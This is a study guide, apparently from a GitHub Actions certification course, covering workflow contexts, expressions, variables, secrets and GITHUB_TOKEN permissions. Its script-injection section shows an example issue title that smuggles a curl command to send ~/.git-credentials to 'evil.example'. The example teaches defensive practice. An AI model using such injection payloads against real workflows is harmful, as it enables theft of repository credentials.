

# Day 2 — Contexts, Expressions, Variables, and Secrets

> Exam domains: **Author and manage workflows (20–25%)**, **Manage GitHub Actions for the enterprise (20–25%)** (secrets and variables), **Secure and optimize automation (10–15%)** (script injection, `GITHUB_TOKEN`).
> Practice issues: [`label:topic:day-2`](../../issues?q=is%3Aissue+label%3Atopic%3Aday-2)

## Overview

Contexts are read-only objects that describe the run: the event, the runner, the job, the matrix, earlier steps. Expressions (`${{ }}`) read contexts and compute values. Variables (`env`, `vars`) hold non-secret configuration. Secrets hold sensitive values and are masked in logs. Together they make one workflow file behave correctly for many branches, environments and events, without hard-coded values.

## How expressions are evaluated



Two facts drive most exam questions:

1. **Context availability depends on the key.** Example: `jobs.<id>.runs-on` can use `github`, `needs`, `strategy`, `matrix`, `vars`, `inputs` — but not `env`, `steps` or `secrets`.
2. **`${{ }}` is text substitution.** GitHub inserts the value into the script **before** the shell runs it. That is why untrusted input inside `run:` is a script-injection risk.

Static vs runtime: the YAML is parsed once (static). Expressions are evaluated when GitHub reaches that key (runtime). A typo in a context name is not a parse error; it evaluates to an empty string. Use `actionlint` to catch it.

## Expressions

Syntax: `${{ <expression> }}`. In `if:` conditionals the `${{ }}` wrapper is optional.

- Operators: `!`, `&&`, `||`, `==`, `!=`, `<`, `<=`, `>`, `>=`, `()`, `[ ]` (index), `.` (property). GitHub ignores case when it compares strings.
- Literals: boolean, null, number, string (single quotes; escape `'` as `''`).
- Type coercion with `==`: mismatched types are converted to numbers (`'' → 0`, `null → 0`, `true → 1`). Compare like types to avoid surprises.
- `&&` / `||` return a value, so you can build a ternary: `${{ github.ref == 'refs/heads/main' && 'prod' || 'dev' }}`. The middle value must be truthy.
- Gotcha: an `if` that starts with `!` must be quoted or wrapped in `${{ }}` because `!` is YAML syntax.
- Gotcha: `if: ${{ false }} && true` — text outside `${{ }}` makes the whole value a non-empty string, which is truthy. Put the full condition inside one `${{ }}`, or omit the wrapper.

### Functions

| Function | Use |
|---|---|
| `contains(search, item)` | substring or array membership |
| `startsWith`, `endsWith` | string checks |
| `format('{0}-{1}', a, b)` | string format (`{{` for a literal brace) |
| `join(array, sep)` | join |
| `toJSON`, `fromJSON` | convert; `fromJSON` builds dynamic matrices and converts `'true'` / `'3'` to typed values |
| `hashFiles('**/package-lock.json')` | SHA-256 of matching files; empty string when nothing matches |

Object filter: `github.event.commits.*.message` returns an array of all messages.

### Status check functions (for `if`)

- `success()` (default implicit), `failure()`, `always()`, `cancelled()`.
- `always()` returns true **even when the run is cancelled**. GitHub recommends `if: ${{ !cancelled() }}` for "run on success or failure, but stop on cancel".
- Use `if: failure()` for notifications. A custom `if` without a status function gets an implicit `success() &&`.
- Job-level `failure()` is true if any job in `needs` (direct or indirect) failed.

## Contexts

| Context | Examples |
|---|---|
| `github` | `github.event_name`, `github.ref`, `github.ref_name`, `github.sha`, `github.actor`, `github.triggering_actor`, `github.repository`, `github.event.pull_request.number`, `github.run_id`, `github.run_attempt`, `github.workspace`, `github.token`, `github.head_ref`, `github.base_ref` |
| `env` | variables set at workflow/job/step level |
| `vars` | configuration variables |
| `secrets` | secrets |
| `job` | `job.status`, `job.container`, `job.services` |
| `jobs` | only in reusable workflows: outputs of its jobs (`jobs.<id>.outputs`) |
| `steps` | `steps.<id>.outputs.<name>`, `.outcome`, `.conclusion` |
| `runner` | `runner.os`, `runner.arch`, `runner.temp`, `runner.tool_cache`, `runner.name`, `runner.environment` (`github-hosted` / `self-hosted`) |
| `strategy` / `matrix` | matrix values, `fail-fast`, `job-index`, `job-total`, `max-parallel` |
| `needs` | `needs.<job>.outputs.<name>`, `needs.<job>.result` |
| `inputs` | `workflow_dispatch` and `workflow_call` inputs |

### Context availability (high-value subset)

| Key | Allowed contexts |
|---|---|
| `run-name` | `github`, `inputs`, `vars` |
| `concurrency` (workflow) | `github`, `inputs`, `vars` |
| `env` (workflow) | `github`, `secrets`, `inputs`, `vars` |
| `jobs.<id>.if` | `github`, `needs`, `vars`, `inputs` |
| `jobs.<id>.runs-on` | `github`, `needs`, `strategy`, `matrix`, `vars`, `inputs` |
| `jobs.<id>.environment` | `github`, `needs`, `strategy`, `matrix`, `vars`, `inputs` |
| `jobs.<id>.steps.if` | `github`, `needs`, `strategy`, `matrix`, `job`, `runner`, `env`, `vars`, `steps`, `inputs` |
| `jobs.<id>.steps.run` / `env` / `with` | all above plus `secrets` |

- **Secrets cannot be referenced directly in any `if:`** (job or step). Map the secret to `env` at job or step level, then test the env var: `if: env.DEPLOY_KEY != ''`.
- `steps.<id>.outcome` is the result before `continue-on-error` is applied; `conclusion` is after.

Debug any context: `run: echo '${{ toJSON(github) }}'` — but **never** print `toJSON(secrets)`.

## Environment variables

Three scopes, innermost wins: workflow `env:` → job `env:` → step `env:`.

Default variables always present: `GITHUB_REPOSITORY`, `GITHUB_SHA`, `GITHUB_REF`, `GITHUB_REF_NAME`, `GITHUB_ACTOR`, `GITHUB_WORKSPACE`, `GITHUB_RUN_ID`, `GITHUB_RUN_NUMBER`, `GITHUB_RUN_ATTEMPT`, `GITHUB_EVENT_NAME`, `GITHUB_EVENT_PATH`, `GITHUB_JOB`, `RUNNER_OS`, `RUNNER_TEMP`, `CI=true`. You cannot overwrite `GITHUB_*` and `RUNNER_*` variables (reserved). `CI` can be overwritten but you should not.

In a `run:` step, reference as shell variables (`$VAR`); in YAML keys use the `env` context (`${{ env.VAR }}`). Default env vars exist only on the runner, so `${{ env.GITHUB_SHA }}` is empty — use `${{ github.sha }}`.

## Configuration variables (`vars`)

- Non-sensitive values at **organization**, **repository**, or **environment** level.
- Referenced as `${{ vars.NAME }}`. Not masked. Unset `vars` evaluate to empty string.
- Precedence: environment > repository > organization (most specific wins).
- Limits: up to 1,000 org, 500 repo, 100 environment variables; 48 KB each; 256 KB total per run.
- Manage by CLI: `gh variable set APP_REGION --body ap-south-1 --env staging`.

## Secrets

- Encrypted values at **organization**, **repository**, or **environment** level.
- Referenced `${{ secrets.NAME }}`. Names: alphanumeric and underscores, not starting with `GITHUB_` or a number, case-insensitive, unique per level.
- **Redacted** in logs, but transformations (base64, partial, URL-encoding) can leak; use `::add-mask::` for derived values.
- Not passed to workflows triggered by forks (except `GITHUB_TOKEN` with reduced permissions).
- Max 48 KB per secret. For larger values, encrypt the file (for example `gpg --symmetric`) and store the passphrase as a secret.
- Limits: up to 1,000 org secrets, 100 repo secrets, 100 environment secrets. A run can access at most 100 org secrets (alphabetical).
- Organization secrets can be limited to all, private, or selected repos.
- Precedence on name conflict: environment > repository > organization.
- Passing secrets to a reusable workflow: `secrets: inherit` or explicit `secrets:` mapping.
- Dependabot has its own secrets store; Codespaces another. `pull_request` runs started by Dependabot get only Dependabot secrets.
- Structured data (JSON blobs) as single secrets is discouraged because redaction matches only the full value.
- Secrets are encrypted on the client with a **libsodium sealed box** using the repo/org/environment public key. The REST API flow is: get public key → encrypt → `PUT` the encrypted value. `gh secret set` does this for you.

```bash
gh secret set DEMO --body "s3cr3t"                     # repo
gh secret set DB_PASS --env production < pass.txt      # environment
gh secret set NPM_TOKEN --org my-org --visibility selected --repos "api,web"
gh api repos/OWNER/REPO/actions/secrets --jq '.secrets[].name'   # names only, never values
```

## GITHUB_TOKEN

- Automatically created per job; expires when the job ends (or after 24 hours max).
- It is a GitHub App installation token scoped to **this repository only**.
- Default permissions depend on org/repo setting (permissive read/write vs restricted read-only). New orgs and repos default to restricted. Set explicitly:

```yaml
permissions:
  contents: read
  pull-requests: write
  id-token: write
```
- Setting any permission key sets all unspecified ones to `none` (except `metadata`, which stays `read`). `permissions: {}` removes all. `read-all` / `write-all` are shortcuts.
- Job-level `permissions` override workflow-level `permissions` for that job.
- Fork PRs get read-only `GITHUB_TOKEN` regardless of the setting (unless the repo explicitly allows write tokens for fork PRs on private repos).
- Accessed as `${{ secrets.GITHUB_TOKEN }}` or `${{ github.token }}`.

| | `GITHUB_TOKEN` | Fine-grained PAT | GitHub App token |
|---|---|---|---|
| Lifetime | One job (≤24 h) | Up to 1 year (or no expiry if allowed) | 1 hour |
| Scope | Current repo | Selected repos | Installed repos |
| Triggers new runs | No (except dispatch events) | Yes | Yes |
| Tied to a person | No | Yes | No |
| Best for | Most in-repo tasks | Avoid in CI | Cross-repo automation |

## Passing data between steps

```yaml
- id: ver
  run: echo "v=$(cat VERSION)" >> "$GITHUB_OUTPUT"
- run: echo "Version is ${{ steps.ver.outputs.v }}"
```

## Script injection warning (common exam topic)

Never interpolate untrusted input directly into `run`:

```yaml
# BAD
- run: echo "${{ github.event.issue.title }}"
# GOOD
- run: echo "$TITLE"
  env:
    TITLE: ${{ github.event.issue.title }}
```

Why it works: in the BAD case, a title such as `a"; curl -d @$HOME/.git-credentials evil.example #` becomes part of the script. In the GOOD case, the title is data in an environment variable; the shell never parses it as code. Always double-quote the variable (`"$TITLE"`).

Untrusted fields include issue/PR titles and bodies, comment bodies, branch names (`github.head_ref`), commit messages, author names and emails, review bodies, page names in `gollum`, and labels.

## Real-world example

A platform team deploys one service to three AWS accounts. Region and account ID are `vars` at environment level. The deploy role ARN is also a `var` (not secret, it is not sensitive). Only the Slack webhook is a secret. The workflow is identical for all environments:

```yaml
jobs:
  deploy:
    runs-on: ubuntu-latest
    environment: ${{ inputs.target }}
    permissions: { contents: read, id-token: write }
    env:
      SLACK_WEBHOOK: ${{ secrets.SLACK_WEBHOOK }}
    steps:
      - run: echo "Deploying to ${{ vars.AWS_ACCOUNT_ID }} in ${{ vars.AWS_REGION }}"
      - if: failure() && env.SLACK_WEBHOOK != ''
        run: curl -sS -X POST -d '{"text":"deploy failed"}' "$SLACK_WEBHOOK"
```

## Hands-on

Example files: [`examples/day-2/`](../examples/day-2/).

1. Create repo secret `DEMO` and repo variable `APP_REGION`: `gh secret set DEMO --body hello && gh variable set APP_REGION --body ap-south-1`.
2. Run [Lab 2](../.github/workflows/lab-2-contexts.yml). Compare `outcome` and `conclusion`.
3. Run [Lab 2b — expressions and injection](../.github/workflows/lab-2b-expressions-injection.yml) with a title that contains `"; echo pwned #`. See that the safe step prints it as text.
4. Run `python3 examples/day-2/list_secrets_vars.py OWNER/REPO` to list names through the REST API.

## Common mistakes

1. **`if: secrets.X != ''`** — not allowed. Map to `env` first.
2. **`${{ env.GITHUB_SHA }}`** — empty. Default env vars are runner-only; use `github.sha`.
3. **`if: ${{ cond }} && other`** — always truthy. Put all logic inside one `${{ }}`.
4. **Declaring `permissions: { id-token: write }` and then `actions/checkout` fails** — `contents` became `none`. Add `contents: read`.
5. **Storing a JSON blob as one secret** — fields printed separately are not masked.

## Troubleshooting

| Symptom | Cause | Fix |
|---|---|---|
| `Unrecognized named-value: 'secrets'` | `secrets` used in `if:` | Map to `env`, test `env.X` |
| `Unrecognized named-value: 'env'` in `runs-on` | `env` not available there | Use `vars` or `inputs` |
| Secret prints as empty | Fork PR; Dependabot run; wrong environment; name typo | Check event; add to Dependabot store; add `environment:` |
| Secret visible in logs | Derived value (base64, substring) | `echo "::add-mask::$DERIVED"` before printing |
| `Resource not accessible by integration` (403) | `GITHUB_TOKEN` lacks a permission | Add the needed key under `permissions:` |
| Ternary returns wrong value | Middle value is falsy (`''`, `0`, `false`) | Reorder the condition or compute the value in a step |

## Exam notes

- Precedence for `vars` and `secrets`: environment > repository > organization.
- `permissions:` with any key → unspecified keys become `none`.
- `always()` also runs on cancel; `!cancelled()` does not.
- `github.event.inputs.x` is a string; `inputs.x` is typed.
- Secrets max 48 KB; repo max 100 secrets.
- Trick: "Which is the safest way to use the PR title in a script?" → pass it through `env` and quote it.

## References

- [Contexts reference](https://docs.github.com/en/actions/reference/workflows-and-actions/contexts)
- [Expressions](https://docs.github.com/en/actions/reference/workflows-and-actions/expressions)
- [Variables reference](https://docs.github.com/en/actions/reference/workflows-and-actions/variables)
- [Using secrets](https://docs.github.com/en/actions/how-tos/write-workflows/choose-what-workflows-do/use-secrets)
- [GITHUB_TOKEN](https://docs.github.com/en/actions/concepts/security/github_token)
- [Script injections](https://docs.github.com/en/actions/concepts/security/script-injections)
- [REST API: Actions secrets](https://docs.github.com/en/rest/actions/secrets)

## Check yourself

1. Which scope wins: workflow env or step env?
2. What is the difference between `steps.x.outcome` and `steps.x.conclusion`?
3. How do you make a cleanup step run even when earlier steps fail, but not when the run is cancelled?
4. What happens to permissions you don't list once you declare any `permissions` key?
5. Precedence order for secrets with the same name across levels?
6. Why shouldn't you inline `${{ github.event.issue.title }}` in a `run` script?
7. Which contexts can you use in `jobs.<id>.runs-on`?
8. How does the REST API protect a secret value in transit when you create it?
